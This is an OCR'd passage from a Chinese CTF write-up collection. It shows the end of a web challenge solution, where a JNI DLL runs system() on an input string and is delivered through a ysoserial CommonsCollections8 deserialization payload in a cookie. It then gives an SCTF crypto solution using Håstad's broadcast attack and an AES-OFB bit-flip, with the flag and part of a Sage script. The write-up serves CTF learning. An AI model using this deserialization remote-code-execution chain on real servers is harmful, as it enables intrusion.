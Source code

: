 
R.cpp

```
include "R.h"
include
JNIEXPORT void JNICALL _R_exec (JNIEnv env, jclass clazz, jstring str) { char cmd= (char*)env->GetStringUTFChars(str,JNI_FALSE); system(cmd); env->ReleaseStringUTFChars(str,cmd); } 
```

编译成 dll，放到服务器的 webdav 服务下。

用https://github.com/Jayl1n/ysoserial/blob/master/src/main//ysoserial/payloads/CommonsCollections8. 构造序列化 payload，贴到 cookie 里打一发，完事儿~

## Crypto
### babygame
作者：De1ta、来源：[安全客](https://www.anquanke.com/post/id/181019)

题目首先需要proof_of_work，要求m和rsa加密m之后再解密的结果不相同，让m比n大即可绕过

进入系统之后有两个选项

1.随机生成三组不同的a，b，n，使用相同的e=3，使得`c=pow(a*m+b,e,n)`，然后会给我们三组不同的a，b，n和c。最后再使用aes_ofb加密m，将结果也给我们。其中aes的iv和key都是随机生成的

2.我们需要输入aes_ofb加密之后的m的结果，其中m需要将其中的afternoon替换为morning，如果构造的正确则返回flag
解题思路：

1.通过Broadcast Attack with Linear Padding解出m为”I will send you the ticket tomorrow afternoon”

2.将m，修改后的m，以及aes_ofb加密之后的m的结果进行异或，得到的最终结果就是修改后的m进行aes_ofb加密之后的结果。将此结果发送给服务器便得到flag

`sctf{7h15_ch4ll3n63_15_n07_h4rd_f0r_y0u_r16h7?}`

解题脚本:

1.hastads.sage
```
def hastads(cArray,nArray,e=3):
    """
    Performs Hastads attack on raw RSA with no padding.
    cArray = Ciphertext Array
    nArray = Modulus Array
    e = public exponent
    """

    if(len(cArray)==len(nArray)==e):
        for i in range(e):
            cArray[i] = Integer(cArray[i])
            nArray[i] = Integer(nArray[i])
        M = crt(cArray,nArray)
        return(Integer(M).nth_root(e,truncate_mode=1))
    else:
        print("CiphertextArray, ModulusArray, need to be of the same length, and the same size as the public exponent")


def linearPaddingHastads(cArray,nArray,aArray,bArray,e=3,eps=1/8):
    """
    Performs Hastads attack on raw RSA with no padding.
    This is for RSA encryptions of the form: cArray[i] = pow(aArray[i]*msg + bArray[i],e,nArray[i])
    Where they are all encryptions of the same message.
    cArray = Ciphertext Array
    nArray = Modulus Array
    aArray = Array of 'slopes' for the linear padding
    bArray = Array of 'y-intercepts' for the linear padding
    e = public exponent
    """
```